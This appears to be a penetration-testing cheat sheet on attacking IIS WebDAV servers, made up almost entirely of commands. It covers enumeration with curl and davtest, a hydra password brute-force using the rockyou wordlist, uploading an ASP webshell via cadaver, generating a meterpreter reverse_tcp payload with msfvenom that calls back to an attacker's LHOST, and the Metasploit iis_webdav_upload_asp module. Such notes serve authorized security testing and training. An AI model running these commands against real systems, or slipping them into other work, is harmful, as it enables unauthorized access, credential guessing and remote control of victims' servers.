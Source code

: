 # Web Services

## IIS WebDav

<pre class="language-bash" data-title="Enumeration"><code class="lang-bash"><strong># check /webdav/ dir in url
</strong>curl http://IP/webdav/

# try to bruteforcing login page
hydra -l $USER -P rockyou.txt $IP http-post-form "$PATH:$USER_FIELD=^USER^&#x26;$PASS_FIELD=^PASS^:F=incorrect" -V

# davtest tool
# return which file is exec on the target
davtest -auth USER:PASS -url http://IP/webdav/
</code></pre>

{% code title="Exploitation" %}
```bash
# cadaver tool - Manual
cadaver http://IP/webdav
USER
PASS

# Create a Payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp

# put webshell 
put /usr/share/webshells/asp/webshell.asp
# Access the webshell using the firefox browser
http://IP/webdav/webshell.asp

# Metasploit
service postgresql start && msfconsole
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS IP
set HttpUsername USER
set HttpPassword PASS
set PATH /webdav/metasploit%RAND%.asp
exploit
```
{% endcode %}



